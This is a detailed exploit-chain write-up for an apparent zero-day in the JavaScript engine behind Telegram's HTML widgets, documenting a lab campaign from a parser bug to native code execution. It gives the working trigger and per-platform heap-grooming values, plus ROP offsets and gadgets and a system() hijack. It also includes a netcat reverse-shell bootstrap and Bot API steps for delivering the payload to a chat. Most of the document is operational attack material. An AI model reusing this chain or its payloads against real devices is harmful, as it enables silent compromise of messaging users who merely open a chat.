

# Payload chain: Telegram widget parser 0day to native code execution

This document is the end-to-end technical chain for
`0day-2-RCE-PARSER-SCOPE`. It is written from the repository records and the
2026-11-08 lab notes. Device-proven, host-only and pending results are labeled.

Repository state: sanitized tree at `7a98fcd`, plus the corrections in
`docs/CRITIQUE_20261108.md`. No device, bot or network action was taken to
write this document.

## 1. Scope and threat model

### 1.1 The widget engine

A Telegram widget is a message that carries an HTML document. The app renders
it inside a chat with a native HTML/CSS renderer and a JavaScript engine. The
render happens on message display; no tap is required for a script to run.

| Platform | Renderer | JS engine | Binary |
|---|---|---|---|
| Android | litehtml fork | QuickJS-ng v0.17.0-era | `libtmessages.49.so` |
| iOS | litehtml fork | same engine generation | `TelegramUIFramework` |
| Desktop | shared widget sandbox | same bundle | Telegram Desktop |

Android process model, measured 2026-11-08:

| Build | Widget process | UID | SELinux | Effect |
|---|---|---:|---|---|
| beta 72889, 72929 | app process `org.telegram.messenger.beta` | 10346 | `u:r:untrusted_app:s0` | app-level code execution |
| beta **72979** | `org.telegram.messenger.beta:widgets:org.telegram.utils.twidget.WidgetEngineService` | 99017 | `u:r:isolated_app:s0` | contained code execution/DoS; no app data, no network |
| beta **72989** (current) | same isolated service | 99024 | `u:r:isolated_app:s0` | same containment; PING works, v3 detector `el=55ms`, final 9,190 / 4,081 |

The sandbox exposes `eval`, `Function`, typed arrays and `BigInt`. It blocks
network APIs and host bridges. It limits the JS heap to 6-8 MiB and the CPU
budget to a few hundred milliseconds. Widget storage is 4 KiB per area. A
widget can ask the bot a question through `TelegramWidget.request`; the bot
answers with `answerWidgetQuery` and the `data` field.

### 1.2 What is in scope

- A widget delivered to a chat that the target account opens.
- A whitelisted bot or an account allowed to send widgets.
- Native code execution in the widget process. On Android 72889/72929 that is
  the app UID 10346 (`u:r:untrusted_app:s0`); on Android 72979/72989 it is the
  isolated UID 99017/99024 (`u:r:isolated_app:s0`). On iOS it is the app process.
- A proof file in the app container or AppGroup, only where the widget process
  can reach it. On Android 72979/72989 the app-private paths are out of reach.
- An Android C2 over loopback (`adb reverse` in the lab) or an answer-channel
  chunk pipeline, only where the widget process has network permissions. On
  72979/72989 the isolated process does not.

### 1.3 What is not in scope

- Root, kernel, bootloader, or a jailbreak escape.
- iOS process creation, `fork`, `posix_spawn`, or `execve`.
- An Android isolated-process escape. The 72979/72989 parser result is contained
  in UID 99017/99024; app-level impact needs a separate escape or a pre-72979
  build.
- A universal single payload across Android MTE-on and iOS.
- A remote internet C2 from the widget. The Android C2 is a loopback or
  private-LAN lab path.
- Telegram Desktop as a safe target. The desktop gate is disproven; see
  section 5.5.
- Third-party accounts, phones, or bots. The campaign used owned devices and
  accounts.

### 1.4 Delivery and execution path



```
bot -> message -> render -> parse -> stage A -> stage B -> proof
                                  \-> safe miss
                                  \-> parser fault
```

The final step depends on the process model. On Android 72979/72989 the widget
is isolated, so the proof-file and C2 branches are not reachable; stage A still
works. See section 1.1.

### 1.5 Why the bug is reachable from a widget

The trigger is plain JavaScript inside the HTML document. It uses a direct
`eval` in a parameter initializer. The sandbox allows `eval`. No host API,
module loader, bytecode loader, or allocation failure is needed.

## 2. The vulnerability

### 2.1 Trigger

```js
"use strict";
function f([] = eval("1")) {}
f();
```

The exploit variants use `eval("[]")` or `eval("(")`; the eval source can be
anything because the vulnerable path runs before the source is parsed.

Why each part is needed:

| Part | Effect |
|---|---|
| `"use strict"` | `add_arguments_arg()` is skipped, so the argument-scope sentinel survives. |
| `[]` empty destructuring | `has_parameter_expressions` is true; no variable is declared in the argument scope. `arg_count >= 1`, so `vardefs` is non-NULL. |
| `= eval(...)` | A direct `eval` in a parameter initializer emits `OP_eval` with the argument-scope index. |
| `f()` | The vulnerable path runs during the eval inside the call. |

### 2.2 Parser scope leak

The shipped engine sets:

```c
/* quickjs.c:37763 */
if (fd->has_parameter_expressions)
    fd->scopes[ARG_SCOPE_INDEX].first = ARG_SCOPE_END;   /* -2 */
```

In strict mode the argument scope keeps `-2`. `resolve_variables()` writes
`first + 1` as a 16-bit operand, so `-2 + 1 = -1` becomes `0xFFFF`. At runtime:

```c
scope_idx = get_u16(pc + 2) - 1;   /* 0xFFFF - 1 = 65534 */
```

`scope_idx` is passed to `add_closure_variables()`.

### 2.3 Far out-of-bounds read

```c
/* quickjs.c:35479 */
for (i = scope_idx; i >= 0;) {
    vd = &b->vardefs[b->arg_count + i];
    if (vd->scope_level > 0) {
        JSClosureVar *cv = &s->closure_var[s->closure_var_count++];
        set_closure_from_var(ctx, cv, vd, i);
    }
    i = vd->scope_next;
}
```

`b` is the calling function's `JSFunctionBytecode`. `JSVarDef` is 20 bytes.
With `arg_count = 1`:

```
index  = 1 + 65534 = 65535
offset = 65535 * 20 = 1,310,700 bytes past b->vardefs
```

Platform targets:

| Platform | `vardefs` | Target from `b` |
|---|---|---|
| Android release 72801 / Sony 13.2 | `b + 0x80` (128) | `b + 1,310,828` |
| iOS 15.8.8 / iOS 27.0 | `b + 0x2A0` (672) | `b + 1,311,372` |

The read dereferences `vd->scope_level` at `+4` and follows `scope_next` at
`+8`. The loop can write as many `JSClosureVar` records as the fake chain has
positive `scope_level` entries.

### 2.4 Controlled write

`JSClosureVar` is 8 bytes:

```
byte 0     closure_type:3 | is_lexical:1 | is_const:1 | var_kind:4
offset 2   uint16 var_idx
offset 4   JSAtom var_name
```

The closure array is allocated with `arg_count + var_count +
closure_var_count` entries. The working function shape has `arg_count = 1`,
`var_count = 6`, `closure_var_count = 0`, so the array is 7 * 8 = 56 bytes and
lands in the class-64 allocator. A victim `ArrayBuffer(72)` has a 56-byte
`JSArrayBuffer` struct in the same class. If the victim sits immediately after
the closure array:

```
closure_var[0..6]   56 bytes   real array
closure_var[7]      +56        next block header (unavoidable)
closure_var[8]      +64        victim JSArrayBuffer.byte_length
closure_var[9]      +72        victim max_byte_length / data
```

The written value is `(flags << 16) | var_idx`. The groom arranges
`0x00050040 = 327,744`. The forged view is:

```js
var V = new Uint8Array(victim);   // length 327,744, backing store 64 bytes
```

### 2.5 Affected versions and novelty

The trigger is present in the QuickJS-ng v0.17.0-era code used by Telegram
13.x. The repository records it in the shipped fork snapshot `2dfeee3e` and
reports the same trigger in upstream `e22ce4d` (0.18.0+). The claim "no fix
was found as of 2026-11-08" is time-bounded; re-check before publication.

It is not:

- `#1827`: `JS_RegExpDelete` stale bytecode. That is `nday-1`.
- `#1865`: `var_ref_count` uint16 truncation. That is `nday-2`.
- `#1782`: truncated parser bytecode `Dbuf`.
- N1: `push_scope` OOM fake scope. That is `0day-1`.
- C1/C2: `cpool_add` OOM and `update_var_htab` mask.

The scope leak, the `ARG_SCOPE_END` sentinel, the `vardefs + 1,310,700` read,
and the closure-record write are distinct from those bugs.

### 2.6 Constraints

| Constraint | Effect |
|---|---|
| ASLR | The target address is relative to `b`; the attacker does not need a base leak for stage A. |
| MTE | Cross-tag Scudo route needs MTE off. The same-tag arena route is MTE-safe by construction. |
| Class sizes | The vulnerable bytecode class must match the spray class. A mismatch is a structural miss or a crash. |
| Spray extent | The target must land inside the spray. A short spray gives a parser fault, not a safe miss. |
| Page shape | The compiled top-level function and script source shift the pre-heap. A length change can move `b`. |
| Teardown | On iOS 27 a forge corrupts a block header; if the endgame does not call `pthread_exit`, the app aborts in `js_free_rt` at teardown. |

### 2.7 Why a safe miss exists

The fake record is 40 bytes: two 20-byte `JSVarDef` records. If the target
lands at a phase outside `{4, 12, 20, 28, 36}`, the first record's
`scope_level` is zero or negative, the loop appends nothing, and the parser
continues. The page reports `NOCORR` or `HIT=-1`. This is a safe miss only
when the far address is mapped; an unmapped far address is a parser fault.

## 3. Stage A: heap grooming and the forge

### 3.1 Common shape

```
[compile f with a chosen constant pool] -> [allocate a class-matched spray]
-> [paint 40-byte fake JSVarDef records at phase offsets]
-> [allocate T[600] ArrayBuffer(72), free T[598]]
-> f() -> scan T for byteLength > 1024 -> V = new Uint8Array(victim)
```

The forged length is `327,744 = 0x50040`. The victim index is usually
`T[545]` or `T[585]` on iOS, `T[599]` on Android. `VK=598` shapes the free
list; it does not select the victim directly.

### 3.2 iOS 27 compile-first geometry

| Knob | Value | Reason |
|---|---:|---|
| `C` float terms | 34 | `fsize = 957`, request `8 + 957 = 965`, Apple tiny class 976 |
| `SZ` | 957 | Spray `Uint8Array(957)`, same class |
| `N` | 2,600 | Spray extent after `b` (about 2.54 MB) |
| `MS` pads | 512, 640, 768, 896, 1024, ... | Pad class-976 blocks before the eval; shift `b` in the tiny region |
| `T` | 600 x `ArrayBuffer(72)` | Victim array; `T[598] = null` |
| `VK` | 598 | Hole base |
| `PH` | 4, 12, 20, 28, 36 | Safe record residues; `1,311,372 mod 976 = 604`, `604 mod 40 = 4`, and 976 mod 40 = 16 |
| `LEN` | 327,744 | Forged `byteLength` |

The page is 8,647 B. The stage-A script is 8,524 chars. The S2 source is 6,099
chars. These three lengths are invariants of the proven family. Variants
change only the pad order and `N` 2600 to 3000, both length-neutral.

```
b (tiny 976) .................... target b+1,311,372
  |                                   |
  vardefs = b+0x2A0                   v
  [ JSVarDef records at +604 in a 976-byte spray block ]
```

The victim is `T[545]` when the record residue is 12/28-class, and `T[585]` on
the 4-class residue. The payload scans all 600 entries, not just one.

The two-attempt H sweep uses a GC re-arm between attempts. A miss is safe
(`HIT=-1`); a parser fault is not. Do not extend the sweep past the calibrated
cells without a new host and device calibration.

### 3.3 iOS 15 hole-reuse geometry

The 6s uses the same class-976 bytecode, but compiles `f` inside a hole in the
spray:

1. Spray `N=3000` x `Uint8Array(957)`.
2. Free `HN=64` consecutive blocks starting at `H`.
3. Compile `f`; it reuses a hole.
4. The target is 1,343 blocks ahead of `b`, inside the live spray.
5. Sweep phases 4, 12, 20, 28, 36 and victim `VK=598`.

The device order was H400 first. H400 hit with
`HIT=545 LEN=327744 PH=36 VK=598 NT=21`. H64 and H200 faulted; H100 and H500
were safe misses. The probe is 1,929 B. The 2,036 B stage A is the
cross-message variant.

The early two-script final missed because the second executable script shifted
the pre-heap. A same-length string does not shift it; a compiled script does.
The winning design keeps stage B in storage or in an attribute, not in a
second executable script.

### 3.4 Android cross-tag geometry (XTAG)

| Knob | Value | Reason |
|---|---:|---|
| `fs` | 2,544 | Spray `ArrayBuffer(2544)`; Scudo class 2,560 |
| `nfloat` | 110 | Makes `b` larger than 512 B, so it is a Scudo allocation |
| `nab` | 1,100 | Spray blocks |
| `drain` | 3,000 | Drain the class-64 free list |
| `tn` | 600 | Victim `ArrayBuffer(64)`; `T[598] = null` |
| `nsym` | 65,600 | Keep atom slot 65535 live so a fake `var_name` does not crash `JS_DupAtom` |
| phases | 0, 4, 8, 12, 16, q 0/1 | Record order and phase sweep |

Target: `b + 1,310,828`. The fake records are 20-byte `RT`/`RJ` patterns.
A hit reports `ABLEN[599]=327744 VLEN=327744`.

This route requires MTE off: the bytecode is a Scudo large block and the spray
is a different tag. The Sony release is untagged, so the route works there.
Stage A is process-independent: beta 72979/72989 still report
`ABLEN[599]=327744 ATT=1`; only the endgame's app-data and network reach
changes.

### 3.5 Android same-tag geometry (STAG)

| Knob | Value | Reason |
|---|---:|---|
| `NP` | 4,000 | Class-512 `ArrayBuffer(488)` data blocks |
| `NQ` | 2,600 | 479-character strings, one per class-512 block |
| `N2` | 390 | `ArrayBuffer(320)` class-352 blocks to exhaust the free list |
| `D` | 600 | `ArrayBuffer(64)` drain |
| `T` | 600 | Victims; `T[598] = null` |

The trigger is an anonymous function with no float literals. `b` is a 344-byte
arena block, class 352. The target is 20 arena slabs above `b`, inside a
class-512 spray page. Both sides are arena tag 0, so the access is MTE-safe.

A hit reports `S1 ABLEN[599]=327744 VLEN=327744`. A miss is `NOCORR` or
`ABLEN[599]=64`, not a crash, because the target page is ours by construction.

The two-sided variant for Pixel 72801 uses `NP=1800 x 488`, `N2=415 x 320`,
`NQ=2400 x 488`. The one-sided version crashed in `PROT_NONE`; the two-sided
version covers both slab growth directions.

### 3.6 Two-phase Android stage A

The P3 detector and final share the same stage-A text and total raw length.
The stage A uses `HS = [[2600,2600],[4000,2600]]`, `ATT` attempts, a GC
re-arm, a class-512 string spray, a tagged-int record, and a 600-entry victim
array. A hit reports `ABLEN[599]=327744 ATT=<n>`.

The detector and final are page-equal only within one package. The P2 pair is
9,176 B; the P3 gated pair is 9,185 B. Do not compare across packages.

### 3.7 Page shape and length

The page shape is part of the exploit, not cosmetic. The engine compiles the
top-level script before stage A. The compiled top-level function occupies
class-976 blocks and changes the tiny-region sequence. A difference of a few
hundred bytes can move `b`.

Consequences:

- Keep the proven raw length when changing a non-stage-A field.
- Do not add a second executable `<script>` for stage B.
- Prefer an attribute or storage for stage B on iOS 15.
- Re-measure after any gate, marker or comment change.

## 4. Stage B and the endgame

### 4.1 iOS same-view primitive

Stage B starts from the forged `ArrayBuffer` and its `Uint8Array` view:

1. Find a class-24 view anchor in the forged window. On the 6s the anchor is
   at offset 4208, not 80.
2. Re-point `u.array.count` and `u.array.u.ptr` to get 64-bit read/write.
3. Walk `JSObject -> shape -> proto -> constructor -> realm` to `JSContext`.
4. `ctx + 16` is `JSRuntime`.
5. Resolve the Mach-O base from `js_free`: `base = js_free - 0x3f4f174`,
   checked with `*(uint32_t *)base == 0xfeedfacf`.
6. For the printf proof: set `rt->mf.js_free = printf`
   (`base + 0x557bc20`), point `rt+0x40` at the marker, free a block, and
   `fflush(NULL)`.
7. For the file proof: arm the ROP table and free the trigger buffer.

The 6s proof:

```
IOS_N1_OK base=0x10c92c000 printf=0x111ea7c20 rt=0x103f02600 D=0x11c86ca10 leak=FORGED
N1IOS_6S_OK x 64
```

The file proof:

```
/private/var/mobile/Containers/Data/Application/00000000-0000-0000-0000-000000000000/Documents/rce.txt
-rw------- 1 mobile mobile 7  Nov 8 05:49:24
RCE_OK
```

The mtime is 2026-11-08 05:49:24. The old 2026-11-05 `RCE_OK` was the n-day
proof; check the mtime.

### 4.2 iOS 27 ROP

The iOS 27 page uses the same same-view path with different constants:

| Item | Value |
|---|---|
| PIVOT2 | `libcFree + 0xB6583074` (`mov sp, x0; ret`) |
| `open` | `+0xB79B52BC` |
| `write` | `+0xB79B3B8C` |
| `pthread_exit` | `-0x88AC` |
| Proof path | `AppGroup/<APPGROUP>/rce.txt`, 91 characters |

The arm is built before the trigger:

```
rt+0x10 = G_CALL (base+0x3292c)
rt+0x20 = PIVOT2
rt+0x30 = HUGE
rt+0x40 = 0
```

After arming, no BigInt arithmetic or allocation is allowed. The chain is built
in a `Uint8Array` before the arm. `TRIG = null` frees the trigger, the pivot
runs, and the chain calls `open`, `write`, `pthread_exit`. `pthread_exit` ends
the widget thread, not the app.

The UB scratch buffer must be found within the forged window. `U_NF` means the
fresh `Uint8Array` object was not found; the fixed endgame uses a deterministic
JS-arena walk (`rt+168 -> JSArena` link at +16, blocks at +40, 64-byte stride,
user data at block+8, class-576 check) and a +/-64 KiB magic scan. Do not widen
the scan to +/-2 MB: it faults outside the mapped tiny region.

### 4.3 iOS 27 proof

Message 5725 produced:

```
AppGroup/<APPGROUP>/rce.txt = 7 bytes RCE_OK\n
sha256 704984d94917e9108dd47ee93714cad1b150078dfd36e828182fe0d82eed07d4
```

The app stayed alive. The winning stage-A marker was below the fold and was
never captured. The 16:22 marker (`R=4 M=768 HIT=545 ... NT=106`) belongs to
another message. Do not quote it as the 5725 marker. The repository records
the proof hash and the run note, not the screenshot burst or the console log;
see `docs/CRITIQUE_20261108.md` P1-06.

The proven page is 8,647 B. Under redaction it is 3,658 zlib9 and
`8b6706e5…`; the older `bf31f2f6…` / 3,680 pair is pre-redaction.

### 4.4 iOS 15 fallback set

The 6s has three paths:

1. **Proven inline ROP.** Seed the same widget id with the 3,617-byte stage B,
   rewrite the Postbox row to `inline-rop-h200.html` (4,600 / 2,099; the old
   notes say 2,124 zlib9, which is pre-redaction), open the chat. H200 forges,
   stage B reads `n1s2`, the ROP writes `rce.txt`.
2. **Attribute final.** `at_final_h400.html` (6,801 / 2,528) keeps stage B in a
   `data-s2` attribute. Host-validated, device-pending.
3. **`srop.js` + `ls_final` via the DB-rewrite path.** `srop.js` is
   6,011 / 2,596; `ls_final_h200_2036.html` is 2,036 / 939. This is the
   fallback if the inline pair is not usable.

The Postbox rewrite must preserve the key, message id, compressed length and
serialization offsets. `--preserve-length --pad-html` is not optional.

### 4.5 Android XTAG endgame (72929 app-level)

Stage B:

1. Check `V` and `VAB`.
2. Scan `V[0, 0x7000)` for a class-24 view anchor.
3. Read the block header at `VBase-8`, walk to the arena slab, and read the
   `JSArenaSlab` used-page bitmap `PG[81]`.
4. Gate every later read with that bitmap, so a wrong anchor stops with
   `NOANCHOR` instead of crashing.
5. Walk `shape -> proto -> prop -> C_FUNCTION -> realm` to `JSContext`;
   `ctx+16` is `JSRuntime`.
6. Resolve the app base from the runtime `PIE` field, walk the ELF dynamic
   tables (`.rela.plt`, `DT_SYMTAB`, `DT_STRTAB`, GNU hash), find libc
   `system`.
7. Set `rt->mf.js_free = system`, write the command into the runtime opaque
   field, free a trigger buffer.

The command is 50 bytes:

```
id>/data/data/org.telegram.messenger.beta/files/n1
```

The proof is 185 bytes:

```
uid=10346(u0_a346) gid=10346(u0_a346) groups=... context=u:r:untrusted_app:s0:...
```

md5 `52258bc776f2f378542d1b2c736840e3`, sha256
`3928773e5f7b1f3f573be112b1713bac007862b04ffe372efc533e05342bdff6`.

These are app-level results on 72889/72929. On beta 72979/72989 the widget
engine runs in isolated UID 99017/99024, so `system()` and the C2 run with the
isolated process's permissions. The app-private path and the socket are blocked
there. The parser stage A still works; the endgame stops at `HF ERR NOANCHOR
VNC=0 VO=-1` before any write. Do not call 72979/72989 app-level RCE.

The C2 variant replaces the command with the 44-character loopback bootstrap:

```
setsid sh -c 'sleep 5|nc 127.0.0.1 5555|sh'&
```

Stage A and stage C are byte-identical. Stage B stays 7,182 bytes. The C2
widget is 9,946 raw / 4,025 zlib9, 71 B under the limit.

### 4.6 Android STAG endgame

The inline endgame is host-proven, not device-proven. The out-of-band endgame
splits the 7,469-byte endgame into eight answers (950 x 7 + 819). The driver
requests `E0` to `E7`, joins the chunks, checks the length, and evals the
result in the same runtime. The marker is:

```
S1 ABLEN[599]=327744 VLEN=327744 | G1/8 ... G8/8 | HF HF OK
```

The endgame resolves the app base, the `free` GOT slot, and libc `system` at
runtime. It writes the release path
`/data/data/org.telegram.messenger/files/n1`. That write requires the widget
process to have app-private data access. The Pixel 72801 proof used the app
process; on beta 72979 the same-tag parser primitive still works but the write
is blocked by the isolated process. Re-check the process model on the target
build.

### 4.7 Two-phase P3 endgame

The P3 final uses the same route-2 stage A and an inline Android endgame. The
gated page is 9,185 B / 4,068 zlib9. The beta rebuild is 9,190 B / 4,071
zlib9 because the package path is 5 bytes longer.

The beta rebuild hit stage A on the Sony 72929 and then returned `HF ERR NA`
(no anchor). The app stayed alive. That is a stage-A success plus endgame
failure. It is not an RCE.

On beta 72979 the same package hit stage A with `ABLEN[599]=327744 ATT=1` and
the c2560s/v3 endgame returned `HF ERR NOANCHOR VNC=0 VO=-1`; there was no
`n1` and the app stayed alive. This is the same anchor limitation, not an
update regression. The detector reported `platform=1 chain=1 hit=1
att=0 sel=599 dpr=2.6 scr=389x300 el=54ms`; a normal `PING` request reached
the host. The 72979 widget runs in isolated UID 99017 (`u:r:isolated_app:s0`), so even an
anchor fix would not restore the app-data write or the C2. The current beta
**72989** keeps the same model at UID **99024**: PING works, detector
`el=55ms`, v3 final 9,190 / 4,081 zlib9, app alive, same `HF ERR NOANCHOR`,
no `n1`/C2. The runs are recorded in the orchestrator notes and
`docs/STATE_20261108.md`; the repository does not contain the device marker
screenshots for these specific runs.

### 4.8 Offsets and limits

| Constant | iOS 27 | iOS 15 | Sony 13.2 | Pixel 72801 |
|---|---|---|---|---|
| `vardefs` | `b+0x2A0` | `b+0x2A0` | `b+0x80` | `b+0x80` |
| OOB from `b` | 1,311,372 | 1,311,372 | 1,310,828 | 1,310,828 |
| `b` class | tiny 976 | tiny 976 | Scudo 2,560 | arena 352 |
| spray | 2,600 x 957 + pads | 3,000 x 957 + holes | 1,100 x AB(2544) | 1,800/415/2,400 |
| victim | `T[545]` / 585 | `T[545]` / 585 | `T[599]` | `T[599]` |
| forged length | 327,744 | 327,744 | 327,744 | 327,744 |
| `mf.js_free` | `rt+0x10` | `rt+0x10` | `rt+0x10` | `rt+0x10` |
| widget process | iOS app | iOS app | app UID 10346 on 72889/72929; isolated UID 99017/99024 on 72979/72989 | app process on 72801 |
| proof | AppGroup `rce.txt` | `Documents/rce.txt` | beta `files/n1` on 72889/72929; blocked on 72979/72989 | release `files/n1` |
| MTE | off (app not MIE) | n/a | off (untagged) | off (release untagged) |

Page limits: raw HTML <= 32,768 B; zlib9 <= 4,096 B. The Android gated final
has 28 B of margin; the beta rebuild has 25 B.

## 5. Delivery

### 5.1 Bot API bases

As of 2026-11-08, both bases serve `sendWidget` natively:

```
POST https://api.telegram.org/beta/bot<TOKEN>/sendWidget
POST https://api.telegram.org/bot<TOKEN>/sendWidget
```

The standard base returned HTTP 200 with the same `widget` message shape and
no redirect. An empty body returned `400 parameter "html" is required`, which
proves native handling rather than a redirect to `/beta/`. Beta still works.
The measurement was on one whitelisted bot; it does not prove the method is
open to every bot.

Body:

```json
{
  "chat_id": <CHAT_ID>,
  "html": "<!doctype html>...",
  "height": 50,
  "allow_queries": true,
  "background_query": true
}
```

### 5.2 Sharing and forwarding

| Operation | Bot-created widget | User/third-party copy |
|---|---|---|
| `sendWidget` | 200, `has_protected_content: true` | n/a |
| `sendWidget` + `is_shared:true` | 200, `widget.id` | n/a |
| `sendSharedWidget` to another chat | 200, same widget object | n/a |
| `forwardMessage` | 400 `can't be forwarded` | 200, `is_copy: true` |
| `copyMessage` | 400 `can't be copied` | 400 `can't be copied` |

The user copy is static HTML. It has no `widget.id` or live query handle. Do
not treat a forwarded copy as a live widget.

The only cross-chat sharing path observed is `is_shared` plus
`sendSharedWidget`. A same-chat seed/exploit swap has not been tested; the
Postbox rewrite remains the proven same-message-id path.

### 5.3 Answer channel

| Item | Limit |
|---|---|
| Answer text | 1,024 UTF-8 bytes, no NUL |
| Request `data` | 1-64 UTF-8 bytes |
| Background pacing | one request per 5,000 ms |
| Requests per appearance | one immediate background request |
| Server flood | 5 requests per 5 s per user and bot |
| Answer window | 15 s |
| Query id lifetime | 15 s |
| Widget storage | 4,096 bytes per area |

The answer field is `data`, not `result`. A chain of N answers moves N x
1,024 bytes. The 4 KiB storage cap is a different channel.

### 5.4 Two-phase P3

The report is 31 bytes = `"P3"` + 62 hex = 64 chars. Fields:

| Byte | Field |
|---|---|
| 0 | version 3 |
| 1 | platform: 1 Android, 2 iOS 15, 3 iOS 27 |
| 2 | chain: 1 route2, 3 holes, 4 parser |
| 3 | flags: hit, safe, answer, timed |
| 4 | attempt |
| 5-6 | selector: H or victim index |
| 7-8 | anchor offset or HIT |
| 9-10 | header or VK |
| 11 | class or PH |
| 12 | DPR x10 |
| 13-16 | screen width/height |
| 17-18 | language |
| 19 | timezone + 128 |
| 20-21 | elapsed |
| 22-23 | padM |
| 24 | N/100 |
| 25 | SZ/4 |
| 26 | UBn |
| 27 | UBsz/8 |
| 28-30 | `t_rep` low 24 bits |

Host mapping:

| Platform | Detector | Hit | Miss |
|---|---|---|---|
| 1 Android route2 | forging detector | `final_inline.html` | `final_fallback.html` |
| 2 iOS 15 | `at_probe_h400.html` | `at_final_h<H>.html` | next probe 400 -> 200 -> 64 -> 500 |
| 3 iOS 27 | safe handshake | `final_ios27_m<M>.html` | re-send final after 3 s |
| 9 desktop | old-gated detector | do not send | do not send |

P2 is a different package: 23 bytes, 48 chars, 9,176 B pages. Do not mix P2
and P3.

### 5.5 Desktop isolation and the JS gate limitation

The old gate used the shared UA, the absence of WebView globals, the screen
shim and a safe-area/DPR term. It passes real Telegram Desktop because the
desktop reports DPR 2.0. The `maxTouchPoints > 0` replacement blocks both the
desktop (0) and the Sony (0). There is no JS-visible discriminator in this
set:

| Field | Telegram Desktop | Sony sandbox |
|---|---|---|
| `maxTouchPoints` | 0 | 0 |
| pointer | fine; no coarse pointer | fine; no coarse pointer |
| UA | shared `TelegramWidget` | same |
| platform | shared | same |
| DPR | 2.0 | 2.6 |
| screen | 430x300 | 389x300 |

A JS gate is a heuristic. The reliable boundary is account isolation: send
and open the payload only in the test account, and do not open that chat in
Telegram Desktop. `platforms.json` row 9 is an operator guard, not a security
control. The desktop probe output is a live-test record; the raw probe page is
not in the repository.

### 5.6 Timing model

| Path | Measurement | Status |
|---|---|---|
| Android C2, message open to hello | 1.913 s | Device, one run |
| Android inline host chain | 154-158 ms | Host |
| P3 host parse + map + dry send | p50 0.047 ms, p95 0.060 ms | Host, 300 runs |
| Sony beta detector report | 63 ms | Device, one run (72929) |
| Sony beta final render | 74 ms | Device, one run (72929) |
| Sony beta host send | 145 ms | Device, one run (72929) |
| Sony 72979 detector report | 54 ms | Device, one run; isolated UID 99017 |
| Sony 72989 detector report | 55 ms | Device, one run; isolated UID 99024 |
| 5725 build to first screenshot | 16:27:33.75 to 16:27:39 | Device, screenshot |
| 5725 proof read-back | <= 16:28:30 | Device, screenshot |
| Direct 17e final hot path | 0.8-2.5 s model | Model, not a distribution |
| Two-phase detector + final | 1.1-3.3 s model | Model |

The second Telegram delivery dominates the two-phase path. For a known chat,
send the canonical final directly; the detector is for an unknown platform or
a stale `last_m`.

## 6. Reproducibility

### 6.1 Tree

| Path | Role |
|---|---|
| `builders/0day-2/xtag/` | XTAG builder and pins |
| `builders/0day-2/stag/` | STAG probe and parallel builder |
| `builders/0day-2/tiny/` | 6s probe/final builders |
| `builders/0day-2/ios27/` | 17e probe builders |
| `builders/two_phase/` | P2 detector/final builder |
| `vulns/` | canonical per-ID payloads and evidence |
| `payloads/ios27_rel/` | canonical 17e 8,647 B family |
| `payloads/two_phase/` | P3 gated pages |
| `bot/` | P2 servers and sender |
| `scripts/two_phase/` | P3 server and gate tools |
| `docs/PAYLOAD_HASHES.json` | current post-redaction pins |
| `scripts/verify_payloads.py` | manifest checker |

### 6.2 Commands

```sh
# static
python3 -m py_compile $(find . -path ./.git -prune -o -name '*.py' -print)

# pins and shape invariants
python3 scripts/verify_payloads.py

# builders
python3 builders/0day-2/xtag/build_widgets.py --check
python3 builders/0day-2/stag/build_probe.py --check
./builders/0day-2/stag/check_parallel.sh
python3 builders/0day-2/tiny/build_ios_way.py --H 400 --outdir /tmp/opencode/tinycheck --check
python3 builders/0day-1/gen_sc_gate.py --check

# servers
python3 bot/bot_two_phase.py --self-test
python3 scripts/two_phase/bot_two_phase.py --self-test
python3 bot/probe_answers.py --self-test
```

Expected: every check prints PASS or an explicit PIN-OK. The P2 builder check
passes for the 9,176 B page; it is not the P3 page.

### 6.3 Canonical post-redaction hashes

| File | Raw | zlib9 | SHA-256 (16) | Status |
|---|---:|---:|---|---|
| `vulns/.../XTAG/payloads/final-sony-beta-72929.html` | 9,946 | 4,023 | `992a51267a385c57` | device, app-level 72929 |
| `vulns/.../XTAG/payloads/probe-sony-beta-72929.html` | 9,946 | 959 | `b9104faef8be5e06` | device, 72929 |
| `vulns/.../XTAG/payloads/c2-final-sony-beta-72929.html` | 9,946 | 4,025 | `26f670aeaf6e6043` | device, app-level 72929 |
| `vulns/.../STAG/payloads/route2/stage-a-probe-72801.html` | 1,566 | 686 | `a534a8725b8a1a07` | device |
| `vulns/.../STAG/payloads/route2/out-of-band-72801.html` | 2,151 | 1,024 | `245f4dc4a2773fed` | device |
| `vulns/.../STAG/payloads/route2/inline-endgame-72801.html` | 9,186 | 3,883 | `fcf935361af2bb13` | host |
| `vulns/.../TINY/payloads/probe-h400.html` | 1,929 | 890 | `a522f06b143ca8f3` | device |
| `vulns/.../TINY/payloads/inline-rop-h200.html` | 4,600 | 2,099 | `e971a9c78ba20a38` | device |
| `vulns/.../TINY/payloads/seed-stage-b.html` | 3,969 | 1,737 | `ecba978f541b238b` | device |
| `vulns/.../TINY/payloads/attribute-rop-h200.html` | 9,336 | 3,543 | `25932a728b6885f8` | host |
| `payloads/ios27_rel/p0_proven.html` | 8,647 | 3,658 | `8b6706e5f2dcdba2` | device once |
| `payloads/ios27_rel/p1_pad768.html` | 8,647 | 3,659 | `92ba67f2ddbf342e` | host |
| `payloads/ios27_rel/p2_pad384.html` | 8,647 | 3,659 | `031ea2c5e28be3df` | host |
| `payloads/ios27_rel/p3_n3000.html` | 8,647 | 3,661 | `f1294c0e79e7cb7b` | host |
| `payloads/ios27_rel/p4_n3000_pad768.html` | 8,647 | 3,662 | `46d3510d84e5e748` | host |
| `payloads/two_phase/detector.html` | 9,185 | 1,641 | `ba0638228881234b` | host |
| `payloads/two_phase/final_inline.html` | 9,185 | 4,068 | `f8bba65829439034` | host |
| `payloads/two_phase/ios15/at_probe_h400.html` | 6,801 | 1,050 | `4cf7efc46ec038e1` | device |
| `payloads/two_phase/ios15/at_final_h400.html` | 6,801 | 2,528 | `9085b5886aa8dd3b` | host |
| `payloads/two_phase/ios27_gated/final_ios27.html` | 9,139 | 3,915 | `01b38c7188a180cf` | host |

The beta two-phase rebuild is not in the tree: 9,190 raw / 4,071 zlib9 /
`8b8ccc13…`. It is the file that hit `HF ERR NA` on the Sony.

### 6.4 Host validation

The host model is QuickJS-ng 0.17.0 with an 8 MiB heap and the app multi-script
harness. It validates the parser logic, the sweep, the record arithmetic and
the marker format. It does not validate the Apple tiny allocator or the Scudo
allocator.

